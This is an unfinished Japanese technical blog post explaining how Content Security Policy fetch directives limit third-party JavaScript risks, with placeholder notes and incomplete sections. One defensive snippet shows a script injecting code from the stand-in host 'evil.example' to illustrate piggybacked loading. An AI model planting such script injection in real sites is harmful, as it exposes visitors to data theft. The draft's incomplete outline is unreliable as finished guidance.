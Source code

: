 # CSP（Content Security Policy）Fetch ディレクティブ活用の現実解

こんにちは、プラットフォームエンジニア & 安全確保支援士の中山です。

Web 解析や SNS 連携、広告掲載等を目的として Web サイトにはしばしば 3rd-party JavaScript が導入されることがあります。一方で 3rd-party JavaScript には Web サイトを閲覧するユーザーに悪影響を与えるリスクが存在するため、その導入とあわせたリスク対策も必要となります。そこで、今回の記事では Content Security Policy（以下 CSP）の Fetch ディレクティブを活用した Web サイトのセキュリティー強化の取り組みについてお伝えしたいと思います。

## CSP の Fetch ディレクティブとは

詳しくは [W3C 仕様](https://www.w3.org/TR/CSP3/) をご確認頂くとして、CSP の Fetch ディレクティブとはサブリソースの読み込みやインライン JavaScript の実行を制限するための Web ブラウザに対する指示のことで、概念を絵にしたものがこちらです。

★ここも絵を、Fetch もかく

例えば Web サイトが

```
Content-Security-Policy: script-src 'self'
```

のような応答ヘッダを送信したり

```
<meta http-equiv="Content-Security-Policy" content="script-src 'self'" />
```

のような META 要素を定義している場合、CSP の Fetch ディレクティブの内容に応じた制限が適用され、

- XSS リスクの軽減
- 外部ドメインへの意図しないデータ転送の抑制
- ある事業者の 3rd-party JavaScript から読み込まれる別な事業者の 3rd-party JavaScript の実行抑制

のようなセキュリティー上の効果が期待できます。

蛇足ですが META 要素に関しては [W3C 仕様](https://www.w3.org/TR/CSP3/) に

> The Content-Security-Policy-Report-Only header is not supported inside a meta element.

とあり、一部の機能が利用できません。その [背景に関する議論](https://github.com/w3c/webappsec-csp/issues/277) では

> I really wish we'd stop with meta-element based policies.

のような意見も出ているため利用には慎重な検討が必要ですね。

## Web サイトのセキュリティー課題と対策

表記についてもう少し掘り下げてみます。

Web サイトが 3rd-party JavaScript を読み込むとき、もしその 3rd-party JavaScript を提供する事業者に悪意があったり、悪意はなくとも別な攻撃者によって CDN やリポジトリ上のコードが改変されていた場合、Web サイト上のデータが盗まれたり [フィッシングサイトに誘導](https://blog.techscore.com/entry/2022/08/24/150000) されてしまう、などのリスクが発生します。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec01.png' />

こうしたリスクには Same Origin Policy を利用して 3rd-party JavaScript が実行されるドメインを分離する対策が有効です。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec02.png' />

ただし 3rd-party JavaScript がその目的を達成するために Web サイトの DOM にアクセスする必要がある場合（例えば広告のビューアビリティー計測など）、ドメインを分離する対策は採用できません。とはいえ、信頼できる安全な 3rd-party JavaScript ならば問題はないでしょう。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec03.png' />

ところが、ある事業者の 3rd-party JavaScript から別な事業者の 3rd-party JavaScript が読み込まれるケースも存在します。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec04.png' />

例えば Web サイトが以下のマークアップを含み

```
<script src='https://hoge.example/hoge.js'></script>
```

さらに hoge.js が以下のようなコードを含む場合に evil.js が読み込まれます。

```
let script = document.createElement('SCRIPT');
script.src = 'https://evil.example/evil.js';
let targetNode = document.getElementsByTagName('SCRIPT').item(0);
targetNode.parentNode.appendChild(script);
```

こうした 3rd-party JavaScript 読み込みが複数回実行されることもあり、そうなるともはや安全性の確認は困難です。行儀の悪い事業者の 3rd-party JavaScript がコンテンツ情報を勝手に収集している … なんてこともあるかもしれません。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec05.png' />

このような場合に CSP の Fetch ディレクティブを使うことで、ホワイトリストで許可していないサブリソースの読み込みを制限することができます。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec06.png' />

## CSP による対策と次の課題

Same Origin Policy と

一方でメディアサービスなどの Web サイトの場合は多くの 3rd-party JavaScript を導入しています。導入を把握している 3rd-party JavaScript の範囲ならば管理することは可能かもしれませんが、


例えば総務省の

その全ての安全性を確認することは現実的ではないかもしれません。


★例の知らない間に 90 個のタグとか（どこかの引用）

★それを CSP の Fetch ディレクティブで対策
★絵で示す
★ところが 3rd-party ツールの場合のホワイトリスト管理の難しさ

## 現実解の模索

★ティアを分けた対応（ブロック + サンプリングレポートと発見的統制 + 受容）
★イシューととりうる HOW のマトリクス


ゼロリスク = 違反時の停止
	インライン
		とめたいなら nonce
		受容するなら 'unsafe-inline'
	3rd-party JavaScript からの piggyback
		読み込むサブリソースを全てホワイトリスト登録。ただし 3p スクリプトが動作不全
		チェックしないなら strict-dynamic でいい
発見的統制 = 違反時のレポート
	インライン
		レポートしたいなら nonce★XSS のケースのレポートを見てみる
		受容するなら 'unsafe-inline'
	3rd-party JavaScript からの piggyback
		自ドメイン以外をレポートで発見的統制

★これ AI にも聞いてみる

## メディアでのティア 2 実験と今後の運用

★TBD
★定期的にレポートを出しサービスの技術管掌担当にチェックしてもらう

## その他考察

★Proxy とサンプリング
★TM での CSP 配信検討と
★nonce 面倒
★まとめとして（AI 先生に言われたような内容で）セキュリティー強化を



